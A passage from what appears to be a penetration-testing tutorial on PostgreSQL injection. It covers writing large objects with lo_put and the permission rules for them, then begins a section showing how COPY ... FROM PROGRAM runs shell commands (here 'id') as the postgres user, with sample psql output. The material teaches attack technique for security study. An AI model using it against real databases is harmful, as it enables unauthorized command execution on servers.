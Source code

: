 ```shell

```

Depending on user permissions, the `INSERT` queries may fail. In that case you could try using `lo_put` as it is described in the [documentation](https://www.postgresql.org/docs/current/lo-funcs.html):

```shell
bluebird=# SELECT lo_put(31337, 0, 'this is a test');
 lo_put
--------

(1 row)

```

#### Permissions

Any user can create or unlink large objects, but importing, exporting or updating the values require the user to either be a superuser, or to have explicit permissions granted. You may read more about this [here](https://www.postgresql.org/docs/current/lo-interfaces.html).


# Command Execution

## Introduction

In this section we will take a look at two ways you can run commands via a `PostgreSQL injection`.

## Method 1: COPY

The first method makes use of the built-in [COPY](https://www.postgresql.org/docs/current/sql-copy.html) command once again. As it turns out, aside from reading and writing files, `COPY` also lets us store data from a `program` in a table. What this means is that we can get `PostgreSQL` to run shell commands as the `postgres` user, store the results in a table, and read them out.

```shell
bluebird=# CREATE TABLE tmp(t TEXT);
CREATE TABLE
bluebird=# COPY tmp FROM PROGRAM 'id';
COPY 1
bluebird=# SELECT * FROM tmp;
                                   t
------------------------------------------------------------------------
 uid=119(postgres) gid=124(postgres) groups=124(postgres),118(ssl-cert)
(1 row)

bluebird=# DROP TABLE tmp;
DROP TABLE
bluebird=# exit

```
